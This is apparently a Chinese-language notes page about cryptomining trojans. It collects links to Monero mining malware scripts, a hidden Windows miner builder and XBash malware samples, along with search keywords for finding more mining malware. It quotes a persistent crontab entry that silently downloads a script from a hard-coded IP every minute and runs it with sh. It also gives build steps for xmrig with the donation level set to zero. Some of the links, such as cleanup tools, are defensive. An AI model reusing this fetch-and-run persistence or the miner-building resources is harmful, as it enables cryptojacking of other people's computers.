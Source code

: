 可以采用CPU,GPU或者CUDA进行挖矿.

## 挖矿木马

1. 门罗币木马脚本： https://yq.aliyun.com/articles/637475
2. 挖矿木马脚本： https://pastebin.com/X2EK5LXb
3. 挖矿木马手机脚本: https://github.com/MinervaLabsResearch/BlogPosts/blob/master/MinerKiller/MinerKiller.sh
4. 简易挖矿木马脚本： https://www.jianshu.com/p/30ca626c9e3a
5. xrmig一键脚本： https://github.com/seanwhe/xmrig-bash-scripts , https://github.com/thequietman44/xmrig-scripts/


发现木马反复执行一个定时任务`crontab -e`：
```
# -q 静默模式， -O - 代表输出到对应的文件 /dev/null中，这个文件是一个空包
* * * * * wget -q -O - http://195.3.146.118/sc.sh | sh > /dev/null 2>&1
```
wget下载脚本，然后运行脚本自动删除脚本: `wget http://sitehere.com/install.sh -O - | sh`


### 木马脚本

Windows平台木马： https://github.com/NYAN-x-CAT/Lime-Miner

Windows强力病毒： https://github.com/hawksh/Hidden-miner-builder

Windows挖矿提高脚本: https://github.com/DeadManWalkingTO/Windows10MiningTweaksDmW


### Github搜索病毒

关键字: xmr mining shell, mining malware,Xmrig Miner Malware



### 病毒脚本

1. 脚本参考： https://github.com/MoneroOcean/xmrig_setup
2. 脚本搜索目录： https://github.com/search?l=Shell&p=2&q=.%2Fxmrig&type=Code
3. 病毒清理脚本： https://github.com/MoreSecLab/DDG_MalWare_Clean_Tool/blob/master/clear.sh
4. xbash病毒脚本: https://www.freebuf.com/articles/terminal/185106.html, https://github.com/h3ct0rjs/XBash-malware-files

```shell
# 以下是安装脚本，可以先编译好不用执行如下脚本
# 下载
sudo apt install -y software-properties-common git build-essential cmake libuv1-dev libssl-dev libmicrohttpd-dev libhwloc-dev gcc g++ 
git clone https://github.com/xmrig/xmrig.git
# 设置抽水比率
cd xmrig
sed -i 's/kDefaultDonateLevel =.*/kDefaultDonateLevel = 0;/' src/donate.h
sed -i 's/kMinimumDonateLevel =.*/kMinimumDonateLevel = 0;/' src/donate.h
# 创建编译目录
mkdir build && cd build
cmake ..
make -j$(nproc)


````

